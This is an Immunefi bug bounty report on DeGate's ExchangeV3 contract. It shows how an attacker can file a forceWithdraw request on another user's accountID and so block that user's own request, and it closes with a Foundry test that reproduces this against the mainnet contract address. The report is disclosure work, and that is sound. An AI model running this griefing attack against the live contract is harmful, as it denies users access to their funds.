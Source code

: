 
# A malicious user can DoS force withdraw request for any legitimate user

Submitted on Nov 20th 2023 at 22:59:01 UTC by @CanYeRest298751 for [Boost | DeGate](https://immunefi.com/bounty/boosteddegatebugbounty/)

Report ID: #25892

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0x9C07A72177c5A05410cA338823e790876E79D73B#code

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Bug Description
A malicious user can request a `forceWithdraw` request on behalf of another `accountID`. This is correctly handled by the prover, and the request will be invalidated when processed by the operator. However in the meantime, the user with the account `accountID` cannot request a forceWithdraw, since only one `forceWithdraw` can be requested at a time.

## Impact
A malicious user can prevent a legitimate one to request `forceWithdraw` for her funds. Thereby denying the access to funds if operator is also malicious.
This can be used to keep big accounts inside the platform, and is a big centralization risk 

## Risk Breakdown
Difficulty to Exploit: Easy
Weakness:
CVSS2 Score:

## Recommendation
Also include the `from` variable in the mapping to check if forceWithdraw has been requested, since `from` can be invalid at request time.

## References


## Proof of concept
import as a test in a forge project and run `forge test -vvvv`

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";

interface IExchangeV3 {
    function forceWithdraw(
        address from,
        address tokenId,
        uint32 accountId
    ) external payable;
}

contract CounterTest is Test {
    IExchangeV3 public exchangeV3 =
        IExchangeV3(0x9C07A72177c5A05410cA338823e790876E79D73B);

    address usdc = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;

    address attacker = address(1);
    address legitimate_user = address(2);

    uint32 accountId = 1;

    function setUp() public {}

    function testForceWithdrawalDos() public {
        //This withdraw is bound to fail because accountId does not belong to address attacker
        vm.prank(attacker);
        exchangeV3.forceWithdraw{value: 1e18}(attacker, usdc, accountId);

        //This withdraw request can succeed, because this is the right value for from
        vm.prank(legitimate_user);
        exchangeV3.forceWithdraw{value: 1e18}(legitimate_user, usdc, accountId);
    }
}
```